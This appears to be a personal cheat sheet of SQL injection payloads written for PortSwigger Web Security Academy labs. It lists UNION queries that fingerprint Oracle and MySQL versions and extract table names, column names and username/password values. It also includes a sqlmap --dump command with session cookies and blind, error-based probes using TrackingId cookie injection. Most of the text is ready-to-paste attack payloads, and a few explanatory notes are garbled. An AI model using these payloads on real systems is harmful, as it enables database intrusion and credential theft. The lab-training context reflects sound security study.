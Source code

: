 # SQL Injection --


**Database version**

for oracle---
'+UNION+SELECT+FROM+dual--
'+UNION+SELECT+BANNER+FROM+v$version--

for MySQL and Microsoft---
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version+NULL#

extracting tables from oracle db
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
extracting columns from oracle db
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_IKKHDT'--
extracting info from columns
'+UNION+SELECT+USERNAME_DLIVBF,+PASSWORD_CRPVBI+FROM+USERS_IKKHDT--


**Blind SQL injection with conditional responses**
if you know the db, put --dbms=postgresql or else run without --dbms flag, it may take longer.
while running below, it will ask for confirmations, go by default, just click enter.
sqlmap -u 'https://0af800e604055c7d819e399800bf00c6.web-security-academy.net/filter?category=Lifestyle' --cookie='TrackingId=nDU4jKT9hjQE9mr5; session=PFERWY0rKpJ7bPszXsQKXVAnzmZyBLWq' --level 2 --dbms=postgresql --dump --threads=5

**checking for blind sql vulneabilities:**
Cookie: TrackingId=S0DitPIzii7Vv0TT'  --> put ' at the end of the cookies.


**Blind SQL injection with conditional errors**

 TrackingId=xyz'||(SELECT '')||'   -> for sql
 TrackingId=xyz'||(SELECT '' FROM dual)||'   --> non-sql, its oracle.

 '||(SELECT '' FROM not-a-real-table)||'   -> if returns error, table does not exist.
 '||(SELECT '' FROM users WHERE ROWNUM = 1)||'  -> -> if does not returns error, table exist.

the syntax is correct and we get no error.
<img width="743" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/f7d1686a-e4c7-45c4-92dd-746d5d26be70">

its not a syntax error, its syntactical error.
<img width="734" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/ee8790ee-3f75-4be0-a5d0-27e0a695cb7b">

its oracle db

<img width="742" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/2e046c41-11aa-4da4-9d12-34861f377ff9">


'||(SELECT '' FROM users WHERE ROWNUM = 1)||'   -> if no error is returned users table exist
<img width="749" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/e5a0642f-a742-4482-a7ae-fa69c60ae9d2">


'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'   -> should return error as syntx is correct but condition is false.
 <img width="744" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/e7eaaf67-bc40-4942-8d18-0c0af8c1ede4">
